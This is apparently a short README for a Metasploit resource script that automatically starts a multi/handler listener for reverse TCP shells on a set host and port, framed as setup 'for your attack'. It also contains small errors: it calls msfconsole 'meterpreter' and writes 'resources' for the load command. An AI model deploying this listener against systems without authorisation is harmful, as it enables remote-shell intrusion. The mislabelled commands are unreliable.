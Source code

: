 # Auto Meta

Auto start script example for meterpreter

## Directions

1. Make a script to use for your attack. (mine will setup ip, port, payload, start background job)
2. Load the script in meterpreter
3. Profit. 


## Example

Name your file with .rb extension for Ruby. 

Script example `startup.rb`

```ruby
<ruby>

host = '10.10.10.10'
port = 8089
payload = 'generic/shell_reverse_tcp'

print("Setting up Fox exploit handler")

run_single("use exploit/multi/handler")
run_single("set payload #{payload}")
run_single("set LHOST #{host}")
run_single("set LPORT #{port}")
run_single("set ExitOnSession false")
run_single("run -j")

run_single("jobs")
run_single("back")
</ruby>
```

To use in meterpreter, open meterpreter.

```
msf6> resources startup.rb
```

In this script we have...

1. Set the handler
2. Set the payload
3. Set the LHOST
4. Set the LPORT
5. Set ExitOnSession false
6. Ran as a job in he background
7. List the job (check its running)
8. Set back command to return to normal meterpreter shell ready for next. 


## Screenshot

![image](https://user-images.githubusercontent.com/5285547/182806915-99214152-3fa9-4fa1-9c1d-651e179fbf7a.png)



